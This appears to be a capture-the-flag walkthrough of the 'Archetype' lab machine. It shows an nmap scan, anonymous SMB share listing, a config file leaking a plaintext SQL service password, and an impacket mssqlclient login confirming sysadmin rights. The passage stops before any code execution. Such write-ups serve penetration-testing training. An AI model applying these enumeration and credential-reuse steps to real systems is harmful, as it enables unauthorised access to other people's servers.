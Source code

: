 Perform nmap

```
nmap -sC -sV -oN nmap/archetype 10.10.10.27
Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-20 19:12 EDT
Nmap scan report for 10.10.10.27
Host is up (0.27s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-09-20T22:58:49
|_Not valid after:  2051-09-20T22:58:49
|_ssl-date: 2021-09-20T23:33:13+00:00; +19m27s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h43m26s, deviation: 3h07m50s, median: 19m26s
| ms-sql-info:
|   10.10.10.27:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery:
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-20T16:32:58-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-09-20T23:33:02
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.85 seconds
```

Checkout smbclient

```
smbclient -N -L \\\\10.10.10.27\\

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

```
smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                10328063 blocks of size 4096. 8258957 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \>

Checkout the file `prod.dtsConfig`
```

cat prod.dtsConfig
<DTSConfiguration>
<DTSConfigurationHeading>
<DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
</DTSConfigurationHeading>
<Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
<ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
</Configuration>

```

Log in using the password found and check if user has sysadmin privileges on SQL server
```

python3 ~/code/impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')

---

          1

SQL>

```

```
